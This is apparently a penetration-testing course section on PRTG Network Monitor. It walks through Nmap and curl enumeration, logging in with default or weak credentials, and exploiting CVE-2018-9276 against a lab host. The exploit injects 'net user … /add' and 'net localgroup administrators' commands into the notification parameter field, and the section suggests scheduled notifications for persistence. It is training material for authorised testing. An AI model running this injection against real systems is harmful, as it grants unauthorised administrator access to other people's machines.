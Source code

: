 # PRTG Network Monitor

[PRTG Network Monitor](https://www.paessler.com/prtg) is agentless network monitor software. It can be used to monitor bandwidth usage, uptime and collect statistics from various hosts, including routers, switches, servers, and more. The first version of PRTG was released in 2003. In 2015 a free version of PRTG was released, restricted to 100 sensors that can be used to monitor up to 20 hosts. It works with an autodiscovery mode to scan areas of a network and create a device list. Once this list is created, it can gather further information from the detected devices using protocols such as ICMP, SNMP, WMI, NetFlow, and more. Devices can also communicate with the tool via a REST API. The software runs entirely from an AJAX-based website, but there is a desktop application available for Windows, Linux, and macOS. A few interesting data points about PRTG:

* According to the company, it is used by 300,000 users worldwide
* The company that makes the tool, Paessler, has been creating monitoring solutions since 1997
* Some organizations that use PRTG to monitor their networks include the Naples International Airport, Virginia Tech, 7-Eleven, and [more](https://www.paessler.com/company/casestudies)

Over the years, PRTG has suffered from [26 vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor_id-5034/product_id-35656/Paessler-Prtg-Network-Monitor.html) that were assigned CVEs. Of all of these, only four have easy-to-find public exploit PoCs, two cross-site scripting (XSS), one Denial of Service, and one authenticated command injection vulnerability which we will cover in this section. It is rare to see PRTG exposed externally, but we have often come across PRTG during internal penetration tests. The HTB weekly release box [Netmon](https://0xdf.gitlab.io/2019/06/29/htb-netmon.html) showcases PRTG.

***

## Discovery/Footprinting/Enumeration

We can quickly discover PRTG from an Nmap scan. It can typically be found on common web ports such as 80, 443, or 8080. It is possible to change the web interface port in the Setup section when logged in as an admin.

```shell-session
$ sudo nmap -sV -p- --open -T4 10.129.201.50

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-22 15:41 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.06% done
Nmap scan report for 10.129.201.50
Host is up (0.11s latency).
Not shown: 65492 closed ports, 24 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  ssl/http      Splunkd httpd
8080/tcp  open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp  open  ssl/http      Splunkd httpd
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.17 seconds
```

From the Nmap scan above, we can see the service `Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)` detected on port 8080.

PRTG also shows up in the EyeWitness scan we performed earlier. Here we can see that EyeWitness lists the default credentials `prtgadmin:prtgadmin`. They are typically pre-filled on the login page, and we often find them unchanged. Vulnerability scanners such as Nessus also have [plugins](https://www.tenable.com/plugins/nessus/51874) that detect the presence of PRTG.

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Once we have discovered PRTG, we can confirm by browsing to the URL and are presented with the login page.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/index.htm</p></figcaption></figure>

From the enumeration we performed so far, it seems to be PRTG version `17.3.33.2830` and is likely vulnerable to [CVE-2018-9276](https://nvd.nist.gov/vuln/detail/CVE-2018-9276) which is an authenticated command injection in the PRTG System Administrator web console for PRTG Network Monitor before version 18.2.39. Based on the version reported by Nmap, we can assume that we are dealing with a vulnerable version. Using `cURL` we can see that the version number is indeed `17.3.33.283`.

```shell-session
$ curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version

  <link rel="stylesheet" type="text/css" href="/css/prtgmini.css?prtgversion=17.3.33.2830__" media="print,screen,projection" />
<div><h3><a target="_blank" href="https://blog.paessler.com/new-prtg-release-21.3.70-with-new-azure-hpe-and-redfish-sensors">New PRTG release 21.3.70 with new Azure, HPE, and Redfish sensors</a></h3><p>Just a short while ago, I introduced you to PRTG Release 21.3.69, with a load of new sensors, and now the next version is ready for installation. And this version also comes with brand new stuff!</p></div>
    <span class="prtgversion">&nbsp;PRTG Network Monitor 17.3.33.2830 </span>
```

Our first attempt to log in with the default credentials fails, but a few tries later, we are in with `prtgadmin:Password123`.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/welcome.htm</p></figcaption></figure>

***

## Leveraging Known Vulnerabilities

Once logged in, we can explore a bit, but we know that this is likely vulnerable to a command injection flaw so let's get right to it. This excellent [blog post](https://www.codewatch.org/blog/?p=453) by the individual who discovered this flaw does a great job of walking through the initial discovery process and how they discovered it. When creating a new notification, the `Parameter` field is passed directly into a PowerShell script without any type of input sanitization.

To begin, mouse over `Setup` in the top right and then the `Account Settings` menu and finally click on `Notifications`.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/myaccount.htm?tabid=2</p></figcaption></figure>

Next, click on `Add new notification`.

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/editnotification.htm?id=new&#x26;tabid=1</p></figcaption></figure>

Give the notification a name and scroll down and tick the box next to `EXECUTE PROGRAM`. Under `Program File`, select `Demo exe notification - outfile.ps1` from the drop-down. Finally, in the parameter field, enter a command. For our purposes, we will add a new local admin user by entering `test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add`. During an actual assessment, we may want to do something that does not change the system, such as getting a reverse shell or connection to our favorite C2. Finally, click the `Save` button.

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After clicking `Save`, we will be redirected to the `Notifications` page and see our new notification named `pwn` in the list.

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/myaccount.htm?tabid=2</p></figcaption></figure>

Now, we could have scheduled the notification to run (and execute our command) at a later time when setting it up. This could prove handy as a persistence mechanism during a long-term engagement and is worth taking note of. Schedules can be modified in the account settings menu if we want to set it up to run at a specific time every day to get our connection back or something of that nature. At this point, all that is left is to click the `Test` button to run our notification and execute the command to add a local admin user. After clicking `Test` we will get a pop-up that says `EXE notification is queued up`. If we receive any sort of error message here, we can go back and double-check the notification settings.

Since this is a blind command execution, we won't get any feedback, so we'd have to either check our listener for a connection back or, in our case, check to see if we can authenticate to the host as a local admin. We can use `CrackMapExec` to confirm local admin access. We could also try to RDP to the box, access over WinRM, or use a tool such as [evil-winrm](https://github.com/Hackplayers/evil-winrm) or something from the [impacket](https://github.com/SecureAuthCorp/impacket) toolkit such as `wmiexec.py` or `psexec.py`.

```shell-session
$ sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG! 

SMB         10.129.201.50   445    APP03            [*] Windows 10.0 Build 17763 (name:APP03) (domain:APP03) (signing:False) (SMBv1:False)
SMB         10.129.201.50   445    APP03            [+] APP03\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
```

And we confirm local admin access on the target! Work through the example and replicate all of the steps on your own against the target system. Challenge yourself to also leverage the command injection vulnerability to obtain a reverse shell connection from the target.

***

## Onwards

Now that we've covered Splunk and PRTG let's move on and discuss some common customer service management and configuration management tools and see how we can abuse them during our engagements.
